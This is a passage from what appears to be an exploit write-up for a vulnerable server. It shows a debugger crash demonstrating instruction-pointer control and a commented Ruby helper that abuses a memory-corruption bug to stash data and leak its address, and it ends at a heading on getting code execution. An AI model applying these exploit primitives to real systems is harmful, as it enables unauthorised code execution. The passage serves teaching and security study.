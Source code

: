 Can you guess what happens to the server?

```

<span class="Type">Program</span> received signal <span class="Type">SIGSEGV</span>, <span class="Type">Segmentation</span> fault.
<span class="Constant">0x43434343</span> <span class="Statement">in</span> <span class="Constant">??</span> ()
```

Yup, EIP control.

To summarize: reading the entire stack is hacky, and I doubt it will work on a 64-bit system, but it worked great in this case!

### Aside: Stashing data

It's *really* easy to stash data and get the address back. I'm going to want to open and read a file, later, so I need a way to stash the file and reference it later. This documented code should explain everything:

```

<span class="Comment"># Store a series of bytes in memory, and return the absolute address</span>
<span class="Comment"># to where in memory those bytes are stored</span>
<span class="rubyDefine">def</span> <span class="Identifier">stash_data</span>(s, data)
  <span class="Comment"># Store an array of doubles - this will allocate 4 bytes and overwrite 32</span>
  store(s, <span class="Type">VARDATA_TYPE_DOUBLE_ARRAY</span>, [<span class="Constant">0x5e5e5e5e5e5e5e5e</span>] * <span class="Constant">4</span>)

  <span class="Comment"># Store an array of bytes, which are the data. It will allocate a buffer</span>
  <span class="Comment"># in which to store these bytes, a pointer to which is written over the</span>
  <span class="Comment"># previous entry</span>
  store(s, <span class="Type">VARDATA_TYPE_BYTE_ARRAY</span>, data.bytes.to_a)

  <span class="Comment"># Get bytes 24 - 27 of the double array, which is where a pointer to the</span>
  <span class="Comment"># allocated buffer (containing 'data') will be stored</span>
  result = get(s, <span class="Constant">1</span>)[<span class="Constant">24</span>..<span class="Constant">27</span>].unpack(<span class="Special">"</span><span class="Constant">I</span><span class="Special">"</span>).pop

  puts(<span class="Special">"</span><span class="Constant">'%s' stored at 0x%08x</span><span class="Special">"</span> % [data, result])

  <span class="Statement">return</span> result
<span class="rubyDefine">end</span>
```

### Getting execution
